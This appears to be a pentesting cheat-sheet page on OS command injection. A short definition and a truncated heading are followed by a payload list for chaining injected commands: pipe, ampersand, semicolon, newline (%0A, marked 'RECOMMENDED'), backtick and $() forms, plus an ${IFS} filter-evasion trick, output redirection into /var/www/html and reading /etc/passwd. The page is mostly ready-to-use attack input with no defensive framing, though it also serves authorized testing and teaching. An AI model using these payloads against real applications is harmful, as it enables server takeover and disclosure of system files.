 # Command Injection

### What is command Injection?
OS command injection (also known as shell injection) is a web security vulnerability that allows an attacker to execute an arbitrary operating system (OS) commands on the server that is running an application, and typically fully compromise the application and all its data.

### Conten
Depending on where your input is being injected you may need to terminate the quoted context (using " or ') before the commands.

### Command Injection/Execution
```
#Both Unix and Windows supported
ls||id; ls ||id; ls|| id; ls || id # Execute both
ls|id; ls |id; ls| id; ls | id # Execute both (using a pipe)
ls&&id; ls &&id; ls&& id; ls && id #  Execute 2º if 1º finish ok
ls&id; ls &id; ls& id; ls & id # Execute both but you can only see the output of the 2º
ls %0A id # %0A Execute both (RECOMMENDED)

#Only unix supported
`ls` # ``
$(ls) # $()
ls; id # ; Chain commands
ls${LS_COLORS:10:1}${IFS}id # Might be useful

#Not executed but may be interesting
> /var/www/html/out.txt #Try to redirect the output to a file
< /etc/passwd #Try to send some input to the command
```

